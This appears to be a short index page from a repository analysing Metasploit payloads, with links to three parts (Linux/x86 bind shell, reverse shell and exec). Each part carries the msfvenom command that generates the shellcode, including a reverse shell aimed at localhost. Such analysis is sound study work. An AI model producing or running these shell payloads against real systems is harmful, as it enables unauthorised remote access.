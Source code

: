 ### MSF Payloads Analysis ##

<p style="text-align: justify;">I decided to divide the analysis into three parts due to the extensive descriptions and explanations.</p>

- [Linux/x86 TCP Bind Shell](Bind-Shell)
```sh
$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
```
- [Linux/x86 TCP Reverse Shell](Reverse-Shell)
```sh
$ msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=127.0.0.1 -f c
```
- [Linux/86 Exec](Exec)
```sh
$ msfvenom -p linux/x86/exec CMD=/bin/bash -f c
```
